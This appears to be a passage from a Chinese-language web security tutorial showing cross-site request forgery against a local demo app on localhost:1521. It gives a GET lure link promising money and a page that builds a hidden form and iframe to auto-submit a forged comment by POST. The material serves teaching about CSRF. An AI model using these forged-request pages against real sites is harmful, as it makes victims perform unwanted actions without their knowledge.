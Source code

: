 csrf.html

```html
<!doctype html>
<html>

<head>
    <meta charset="utf-8" />
    <title>csrf demo</title>
</head>

<body>
    hello，这里什么也没有。
    <a href="localhost：1521/ajax/addComment?postid=13&content=我是来自get的评论">点击这里有钱啦</a>
    <script>
    </script>
</body>

</html>
```

### 用POST方式攻击

创建iframe, 在iframe中提交和跳转，由于iframe隐藏，所以看不到跳转页。

用的是POST，需要第三方构建表单提交才可以

csrf.html

```html
<!doctype html>
<html>
<head>
    <meta charset="utf-8" />
    <title>csrf demo</title>
</head>
<body>
    hello，这里什么也没有。
    <script>
        document.write(
            `
                <form name="commentForm" target="csrf" method="post" action="http://localhost:1521/post/addComment">
                    <input name="postId" type="hidden" value="1">
                    <textarea name="content">来自CSRF！</textarea>
                </form>`
        );

        var iframe = document.createElement('iframe');
        iframe.name = 'csrf';
        iframe.style.display = 'none';
        document.body.appendChild(iframe);

        setTimeout(function () {
            document.querySelector('[name=commentForm]').submit();
        }, 1000);
    </script>
</body>
</html>
```
